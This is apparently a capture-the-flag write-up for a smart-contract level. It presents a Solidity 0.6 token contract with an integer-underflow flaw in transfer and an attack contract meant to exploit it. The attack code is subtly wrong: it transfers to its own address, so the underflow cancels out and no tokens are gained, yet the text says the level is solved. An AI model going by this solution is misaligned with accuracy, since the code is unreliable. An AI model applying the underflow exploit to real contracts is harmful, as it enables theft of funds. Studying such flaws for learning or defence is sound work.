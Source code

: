 # Challenge 5 

<img src="./images/BigLevel5.svg" alt="5" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

Challenge
---
> You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Solution
--- 
1. If you look at the contract You will see the 3 function `constructor`, `transfer` and `balanceOf`. `constructor` will the set the whoever deploys the contract. `transfer` takes `address` of the `recepient` and `value` and `balanceOf` will returns the how may token owner owns. 

2. `transfer` function is vulnerable that is overflow/undeflow.

Here's the gotcha my fellow friend,
> < 0.8.0 no checks for the overlow/undeflow without any errors.

> Default behaviour of Solidity 0.8.0 or higher version for overflow / underflow is to throw an error.

Here's The code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract TokenAttack {
    Token tokenAddress;

    constructor(address _addr) public  {
        tokenAddress = Token(_addr);
    }

    function solveTransfer() public returns(bool) {
        bool result = tokenAddress.transfer(address(this),21000001);
        return result;
    }
}
```

If You want to learn OverFlow/Undeflow Here's the [link.](https://ethereum-blockchain-developer.com/010-solidity-basics/03-integer-overflow-underflow/)

Make New Contract and create `solveTransfer` provide address and value that will do overflow/undeflow. now you can submit the instance and you will see your console with completed level message.